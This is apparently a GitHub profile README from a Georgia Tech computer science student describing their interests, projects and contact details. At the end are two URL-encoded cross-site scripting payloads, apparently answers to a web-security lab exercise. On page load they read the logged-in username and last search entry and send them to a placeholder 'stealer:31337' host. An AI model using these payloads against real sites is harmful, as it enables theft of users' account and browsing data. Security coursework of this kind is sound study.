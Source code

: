 Hi, I’m @palomacardozo

I’m interested in web/IOS development, cybersecurity, and general software engineering.

I’m currently pursuing a Bachelor of Science in Computer Science at the Georgia Instuite of Technology

My major concentrations are cybersecurity and media/UI, and I am a third year student.

To view my work on my current projects see my two other repositories: https://github.com/palomacardozo/VIP-Machine-Learning-Fall-2024 (Machine Learning Project) and https://github.com/palomacardozo/CS2340 (Full-Stack Web Application for Finding Local Restaurants). You can also check out my work on my other full-stack web application, used to created Spotify Wrapped interafcting the Spotify API: https://github.com/anushak016/SpotifyWrapped. This web application is also hosted remotely, and you can visit it at https://spotify-wrapped-app.onrender.com/

You can reach me further with my student email: pmc8@gatech.edu


&q=%3Cscript%3E%24(document).ready(function%20()%20%7B%24.get(%27http%3A%2F%2Fstealer%3A31337%2F%3Fstolen_user%3D%27%2Bdocument.getElementById(%27logged-in-user%27).innerHTML%2B%27%26last_search%3D%27%2Bdocument.getElementById(%27history-list%27).children%5B1%5D.text)%3B%7D)%3B%3C%2Fscript%3E

&q=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2C%20function%28%29%20%7Bvar%20username%3DencodeURIComponent%28document.getElementById%28%27logged-in-user%27%29.innerText%29%3Bvar%20lastSearch%3DencodeURIComponent%28document.getElementById%28%27history-list%27%29.children%5B1%5D.innerText%29%3Bnew%20Image%28%29.src%3D%22http%3A%2F%2Fstealer%3A31337%2F%3Fstolen_user%3D%22%2Busername%2B%22%26last_search%3D%22%2BlastSearch%3B%7D%29%3B%3C%2Fscript%3E
